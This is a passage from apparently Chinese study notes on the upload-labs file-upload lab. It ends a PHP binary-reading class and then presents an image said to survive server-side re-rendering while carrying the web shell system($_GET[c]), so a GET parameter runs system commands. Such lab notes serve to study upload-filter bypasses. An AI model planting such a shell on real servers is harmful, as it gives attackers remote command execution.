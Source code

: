 ```php
			}
			$short = substr($this->binData, 0, 2);
			$this->binData = substr($this->binData, 2);
			if($this->order) {
				$short = (ord($short[1]) << 8) + ord($short[0]);
			} else {
				$short = (ord($short[0]) << 8) + ord($short[1]);
			}
			return $short;
		}

		public function eof() {
			return !$this->binData||(strlen($this->binData) === 0);
		}
	}
?>

```





下面这个图片可以过二次渲染，内容是system($_GET[c])

![payload-get-password-is-c](upload-labs学习笔记/payload-get-password-is-c.jpg)
